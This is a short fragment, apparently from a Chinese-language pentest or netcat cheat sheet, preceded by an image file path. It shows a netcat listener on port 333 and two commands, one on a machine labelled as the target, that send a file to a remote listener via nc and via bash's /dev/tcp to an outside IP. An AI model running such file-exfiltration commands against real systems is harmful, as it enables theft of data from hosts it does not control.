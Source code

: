 	>nc –lvnp 333 >1.txt
	目标机
	>nc –vn 192.168.1.2 333 <test.txt –q 1
	&
	>cat 1.txt >/dev/tcp/1.1.1.1/333